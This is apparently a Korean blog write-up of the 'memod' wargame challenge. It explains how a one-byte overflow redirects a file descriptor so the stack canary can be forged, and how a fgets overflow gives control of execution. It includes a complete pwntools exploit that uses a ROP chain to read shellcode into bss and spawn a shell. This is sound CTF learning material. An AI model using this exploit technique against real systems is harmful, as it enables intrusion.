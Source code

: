 ```yaml
---
layout: post
title: "memod"
comments : true
category : War Game
---
```


# 문제
***

memod 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

file 명령어 결과는 다음과 같다.
```
memod: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=0609d9d923e140f16f00fe4df883f8250b195222, not stripped
```

바이너리 코드
```
...
char s; // [ebp-128h]
char file[32]; // [ebp-28h]
int fd; // [ebp-8h]
int s2;
...
for(i=0;i<=32;++i)
{
    s=getchar();
    if((unsigned int)(s-48) > 9)
    {
        file[i]=0;
        break;
    }
    file[i]=s;
}
if(!file[0])
{
    ...
    exit(0);
}
read(fd,&canary_backup,4u);
s2=canary_backup;
...
fgets(&s,512,stdin);
...
if(memcmp(&canary_backup,&s2,4u))
{
    ...
    exit(-1);
}
return 0
```

for문에서 1byte overflow가 발생한다. 이를 통해서 fd에 1byte 값을 덮어쓸 수 있기 때문에 fd를 내가 원하는 값으로 변경할 수 있다. (파일 디스크립터는 사용하지 않는 가장 작은 파일 디스크립터 번호를 할당받는다. 0,1,2는 stdin, stdout, stderr) 


fgets 함수에서 buffer overflow가 발생한다. 

그리고 NX가 diabled되어 있기 때문에 bss 영역에서 shellcode를 실행할 수 있다.
## exploit 방법
1. 1byte overflow를 통해서 fd를 0으로 바꾼다. 이를 통해서 canary값을 내 입력값으로 바꿀 수 있다.
2. canary값을 알고 있기 때문에 fgets 함수에서 발생하는 buffer overflow로 eip를 컨트롤 할 수 있다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/round2/memod/memod"

p=process(file_path)

read_plt=0x80484f0
pppr=0x08048836
bss_sec=0x8049b90

shell = asm(shellcraft.sh())

pay="7"*32+"A"  # 1byte bof -> fd = 0

p.send(pay)
time.sleep(0.5)
p.send("AAAA") # canary = 0x41414141

p.recvuntil(";p\n")

pay2="A"*300
pay2+=p32(read_plt)
pay2+=p32(pppr)
pay2+=p32(0)
pay2+=p32(bss_sec)
pay2+=p32(0x100)
pay2+=p32(bss_sec)

p.sendline(pay2)
time.sleep(0.5)
p.send(shell)

p.interactive()
```

# 알게 된 것
***
1. fgets / gets / scanf/ getchar 등의 함수는 입력 버퍼를 가지고 있다. 따라서 입력 버퍼에 저장되어 있는 입력값들을 입력으로 받는다. 하지만 read(0,&buf,0x100) 는 입력 버퍼에서 입력값을 읽어오는 것이 아니라 해당 함수가 호출된 이후에 들어오는 입력을 받는다. 
=> fgets와 같은 함수로 입력을 받은 뒤 바로 read함수를 호출하는 경우 send 사이에 time.sleep()을 넣어줘야 한다.

2. fgets, scanf, gets는 엔터까지 입력을 받기 때문에 .sendline으로 입력을 넣어줘야 한다.
   getchar, read 함수는 .send로 입력을 넣어준다.
